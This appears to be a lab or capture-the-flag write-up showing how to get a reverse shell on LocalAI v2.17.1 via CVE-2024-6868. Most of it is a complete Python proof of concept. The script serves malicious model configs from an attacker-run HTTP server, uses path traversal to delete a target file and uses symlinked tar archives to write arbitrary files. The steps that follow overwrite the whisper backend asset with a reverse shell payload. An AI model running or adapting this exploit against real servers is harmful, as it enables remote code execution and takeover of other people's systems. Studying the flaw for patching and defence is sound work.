

# LocalAI-CVE-2024-6868

In this writeup, we’ll go through the steps to obtain a reverse shell on LocalAI, the very famous OpenSource alternative to OpenAI.

LocalAI is a selfhosted AI engine used to run models locally and generate text, audio, images and more. And we will be exploiting one of its feature that allows the user to upload other files the model can use. 

# Machine Walkthrough

we start with enumerating the machine by a simple port scan.




Http service on port 8080

Visit the website


First think that catches is the version of LocalAI that we see on the bottom of the page,  v2.17.1. we do  a quick search to find out if it has any public vulnerability/


**CVE-2024-6868:** The LocalAI model’s configuration allows users to specify additional files that will be used by the model. If the user sends archives, they will be automatically extracted after their download. This allows to do "tarslip" and write files to arbitrary location bypassing any checks that otherwise keep everything in the models directory.

So we can write any file we can on the server, but it has to not be existing. that’s itself is a vulnerability, however if we want to do code execution, we need to search for a file that the service executes and delete it then upload our payload instead.

LocalAI process actually copies backend assets to the path /tmp/localai/backend_data/backend-assets. these copies are in general writable by the server and executed once we load a model.


Overwriting one of these files and running a model that uses a corresponding backend will then lead to an easy RCE.
I recommend reading this amazing report of Ozelis, the person behind this finding, on [https://huntr.com/bounties/f91fb287-412e-4c89-87df-9e4b6e609647](https://huntr.com/bounties/f91fb287-412e-4c89-87df-9e4b6e609647) . Save the poc he included in his report to a python script.

### PoC

This script will first delete the file on the server (if it exists) by exploiting another vulnerability. Then, it will create a model and download its files. Next, our payload will be placed in a tar file and uploaded to the server. The trick is that the tar archive contains a symlink to the target path where we want our payload to be located. The tar archive will then be automatically extracted on the server.

```python
import json, time, tarfile

from io import BytesIO
from random import randbytes, randint
from pathlib import Path
from argparse import ArgumentParser
from requests import Session

from http.server import HTTPServer, BaseHTTPRequestHandler
from multiprocessing import Process, Queue

# small template for models that will be served to localai:
model_tmpl = """
name: {}
files:
  - filename: {}
    uri: {}
"""

g_queue = Queue() # used for some janky ipc with http server

class HttpHandler(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        pass

    def do_GET(self):
        self.send_response(200)
        self.send_header('content-type', 'application/text')
        self.end_headers()
        rsp = g_queue.get()
        print(f"response to {self.path}:", rsp[:64], "...")
        self.wfile.write(rsp)

def run_httpd(lhost, lport):
    print(f"running httpserver on {lhost}:{lport}")
    httpd = HTTPServer((lhost, lport), HttpHandler)
    httpd.serve_forever()

if __name__ == "__main__":
    parser = ArgumentParser()
    parser.add_argument("--lhost", default="localhost")
    parser.add_argument("--url", default="http://localhost:8080")
    parser.add_argument("--local_path", default="poc.txt")
    parser.add_argument("--remote_path", default="/tmp/poc.txt")
    args = parser.parse_args()

    remote_path = Path(args.remote_path)

    # --lhost is attackers host as seen from the localai, so if localai
    # runs in docker use 172.17.0.1 (or something like that depending on
    # your system), if running locally just use localhost:
    lport = randint(50000, 60000)
    attacker_url = f"http://{args.lhost}:{lport}"

    # run http service that will serve the files:
    proc = Process(target=run_httpd, args=(args.lhost, lport))
    proc.start()
    time.sleep(1)

    with Session() as s:
        # use another vulnerability to delete the target first, because our "arbitrary"
        # write can not overwrite files, just write a new file:
        m_name = "m_" + randbytes(4).hex()
        g_queue.put(f"name: {m_name}\n".encode())
        rsp = s.post(f"{args.url}/models/apply", json={
            "url" : f"http://{args.lhost}:{lport}/{m_name}.yaml",
            "overrides" : {
                "mmproj" : f"../../../../../../../../../../{args.remote_path}",
            }
        })
        rsp = s.post(f"{args.url}/models/delete/{m_name}")

        # create a model from a config and let it download the files. If the file is an archive
        # it will automatically uncompress the contents:
        m_name = "m_" + randbytes(4).hex()
        model_yaml = model_tmpl.format(m_name, f"{m_name}.tar", f"{attacker_url}/{m_name}.tar")

        g_queue.put(model_yaml.encode())
        rsp = s.post(f"{args.url}/models/apply", json={
            "url" : f"http://{args.lhost}:{lport}/{m_name}.yaml",
        })

        # create a tar file with a symlink pointing to the directory of `remote_path`.
        redirect = randbytes(4).hex()
        fake_tar = BytesIO()
        with tarfile.open(fileobj=fake_tar, mode="w") as tar:
            info = tarfile.TarInfo(redirect)
            info.type = tarfile.SYMTYPE
            info.linkname = str(remote_path.parent)
            tar.addfile(info)

        g_queue.put(fake_tar.getvalue())

        # do another tarslip, but this time save the .tar file to symlink'ed directory
        # so that the contents of this new tar are extracted there. this will allow to
        # write a file with the same attributes as `args.local_path`
        m_name = "m_" + randbytes(4).hex()
        model_yaml = model_tmpl.format(m_name, f"{redirect}/{redirect}.tar", f"{attacker_url}/{m_name}.tar")
        g_queue.put(model_yaml.encode())

        rsp = s.post(f"{args.url}/models/apply", json={
            "url" : f"http://{args.lhost}:{lport}/{m_name}.yaml",
        })

        fake_tar = BytesIO()
        with tarfile.open(fileobj=fake_tar, mode="w") as tar:
            tar.add(args.local_path, arcname=str(remote_path.name))

        g_queue.put(fake_tar.getvalue())

        time.sleep(1)
        input("press enter to continue...")

    proc.kill()
```

Now, we rests to do is create our payload and run the poc, then request the then malicious model.

1. create a reverse shell payload:


Make sure the payload is in an executable file (chmod  +x pwn)

1. overwrite one of the backened assetes (whisper for example) 


1. download a sample .ogg file (it s needed for the model to work )


1. Upload the model file and inject our malicious backend file


1. start a listener on your attacker machine


1. Load whisper model


pwned :>

